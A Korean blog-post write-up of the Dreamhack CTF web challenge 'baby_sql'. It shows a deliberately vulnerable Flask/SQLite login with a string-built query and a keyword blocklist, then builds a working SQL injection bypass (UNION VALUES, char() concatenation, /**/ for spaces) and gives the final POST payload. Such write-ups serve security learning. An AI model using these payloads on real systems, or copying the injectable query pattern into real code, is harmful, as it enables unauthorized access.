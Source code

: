 ```yaml
---
title: baby_sql
author: sally
date: 2024-01-19 01:04:00 +0800
categories: [Dreamhack, Web]
tags: [web, sql injection, level1]
img_path: /assets/img/posts/20240119/
---
```


## 문제
![login](baby_sql/login.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

## 풀이 방법
**app.py**
```python
#!/usr/bin/env python3
from flask import Flask, request, render_template, make_response, redirect, url_for, session, g
import urllib
import os
import sqlite3

app = Flask(__name__)
app.secret_key = os.urandom(32)
from flask import _app_ctx_stack

DATABASE = 'users.db'

def get_db():
  top = _app_ctx_stack.top
  if not hasattr(top, 'sqlite_db'):
    top.sqlite_db = sqlite3.connect(DATABASE)
  return top.sqlite_db


try:
  FLAG = open('./flag.txt', 'r').read()
except:
  FLAG = '[**FLAG**]'


@app.route('/')
def index():
  return render_template('index.html')


@app.route('/login', methods=['GET', 'POST'])
def login():
  if request.method == 'GET':
    return render_template('login.html')

  uid = request.form.get('uid', '').lower()
  upw = request.form.get('upw', '').lower()
  level = request.form.get('level', '9').lower()

  sqli_filter = ['[', ']', ',', 'admin', 'select', '\'', '"', '\t', '\n', '\r', '\x08', '\x09', '\x00', '\x0b', '\x0d', ' ']
  for x in sqli_filter:
    if uid.find(x) != -1:
      return 'No Hack!'
    if upw.find(x) != -1:
      return 'No Hack!'
    if level.find(x) != -1:
      return 'No Hack!'


  with app.app_context():
    conn = get_db()
    query = f"SELECT uid FROM users WHERE uid='{uid}' and upw='{upw}' and level={level};"
    try:
      req = conn.execute(query)
      result = req.fetchone()

      if result is not None:
        uid = result[0]
        if uid == 'admin':
          return FLAG
    except:
      return 'Error!'
  return 'Good!'


@app.teardown_appcontext
def close_connection(exception):
  top = _app_ctx_stack.top
  if hasattr(top, 'sqlite_db'):
    top.sqlite_db.close()


if __name__ == '__main__':
  os.system('rm -rf %s' % DATABASE)
  with app.app_context():
    conn = get_db()
    conn.execute('CREATE TABLE users (uid text, upw text, level integer);')
    conn.execute("INSERT INTO users VALUES ('dream','cometrue', 9);")
    conn.commit()

  app.run(host='0.0.0.0', port=8001)
```

문제 파일 코드를 간단히 설명하면 다음과 같다.

1. **sqlite3 db** 사용
2. users table 생성 (userid, userpassword, level)
3. ('dream','cometrue',9) 를 삽입
4. `query` 실행 후 맨 처음 값이 admin 이면 플래그 획득
5. 요청 값은 반드시 **POST** 로 보내야 함.

### 필터링
이번 문제에서는 필터링이 추가되었다.
```python
sqli_filter = ['[', ']', ',', 'admin', 'select', '\'', '"', '\t', '\n', '\r', '\x08', '\x09', '\x00', '\x0b', '\x0d', ' ']
```

싱글쿼터 더블쿼터랑 admin 문자열을 사용할 수 없고, 공백을 사용할 수 없다. 


## 문제 풀이
### admin 출력
문제를 보면 `admin` 계정이 없다. 
하지만 `uid`가 `admin` 인지 확인하는 코드는 없다. 
단지, query 결과문의 첫 번째 uid 값이 `admin` 인지만 확인할 뿐이다. 
따라서 `admin`이 출력되게만 하자고 생각했다.

아래의 사이트에서 간단하게 쿼리문 테스트들이 가능하다. 
- https://www.sqlitetutorial.net/tryit/query/sqlite-select/#1

sqlite는 내가 잘 모르기 때문에 진짜 웹 사이트를 전부 뒤져보다가 `values` 라는 함수를 찾을 수 있었다.
```sql
values("admin")
```
| colomn1                      |
|:-----------------------------|
| admin                        |


### admin 필터링 우회
sqlite의 concat 은 `||` 이다. 이건 금방 찾았음.
그리고 문자는 `chr` 함수가 있었다. 이건 사이트를 하도 많이 돌아다니다가 얻어 걸렸다. 
```sql
values(char(97)||char(100)||char(109)||char(105)||char(110))
```
| colomn1                      |
|:-----------------------------|
| admin                        |

### uid 컬럼
uid 컬럼명을 세팅해주어야 하는데 기존 쿼리문은 다음과 같다.
```sql
SELECT uid FROM users WHERE uid='{uid}' and upw='{upw}' and level={level};
```

두 쿼리문의 결과를 합쳐주는 `union` 을 사용해주자.

- uid = "' union values(char(97)||char(100)||char(109)||char(105)||char(110))--"
```sql
SELECT uid FROM users WHERE uid='' union values(char(97)||char(100)||char(109)||char(105)||char(110))--' and upw='{upw}' and level={level}; 
```
| uid   |
|:------|
| admin |

### space 우회
이건 제로가 알려준 `/**/`를 사용했다.
```sql
SELECT uid FROM users WHERE uid=''/**/union/**/values(char(97)||char(100)||char(109)||char(105)||char(110))--' and upw='{upw}' and level={level};
```
| uid   |
|:------|
| admin |

### 싱글쿼터 우회
마지막으로 싱글쿼터 우회가 하나 남았다. 
코드를 보면 level 에서는 싱글쿼터를 사용하지 않기 때문에 그냥 싱글쿼터 없이 써주면 된다.
뒤에 주석은 필터링이 없어서 써도 되는데 어차피 쿼리 마지막 부분이라 굳이 주석 쓸 필요가 없다. 
```sql
SELECT uid FROM users WHERE uid='{uid}' and upw='{upw}' and level=999/**/union/**/values(char(97)||char(100)||char(109)||char(105)||char(110));
```

### POST
#### 사용 툴
- Burp Suite Community Edition

POST 값을 확인하고 수정하기 위해서 위의 툴을 사용하였다.

![1](baby_sql/burpsuite1.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

level 값이 없기 때문에 추가해서 사용해주면 된다. 

![2](baby_sql/burpsuite2.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

```
uid=abc&upw=def&level=999/**/UNION/**/values(char(97)||char(100)||char(109)||char(105)||char(110))
```

플래그를 획득할 수 있었다.
